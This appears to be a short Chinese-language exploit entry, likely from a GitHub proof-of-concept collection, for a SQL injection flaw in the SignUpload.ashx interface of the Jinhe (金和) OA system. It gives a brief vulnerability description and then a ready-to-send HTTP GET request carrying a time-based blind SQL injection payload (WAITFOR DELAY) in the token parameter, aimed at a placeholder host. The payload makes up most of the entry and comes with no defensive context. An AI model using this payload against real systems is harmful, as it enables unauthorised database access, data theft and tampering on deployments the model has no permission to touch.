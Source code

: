 **漏洞描述：**

金和OA系统接口SignUpload.ashx存在SQL注入漏洞，允许攻击者通过恶意构造的SQL语句操控数据库，从而导致数据泄露、篡改或破坏，严重威胁系统安全。

**影响版本：**

金和OA

**Payload：**

```yaml
GET /C6/Jhsoft.Web.ask/SignUpload.ashx?token=1%3BWAITFOR+DELAY+%270%3A0%3A%201%27+--%20and%201=1_123_123&filename=1 HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2117.157 Safari/537.36
Connection: close
Cotent-Length: 189
Content-Type: text/plain
Accept-Encoding: gzip
```

---
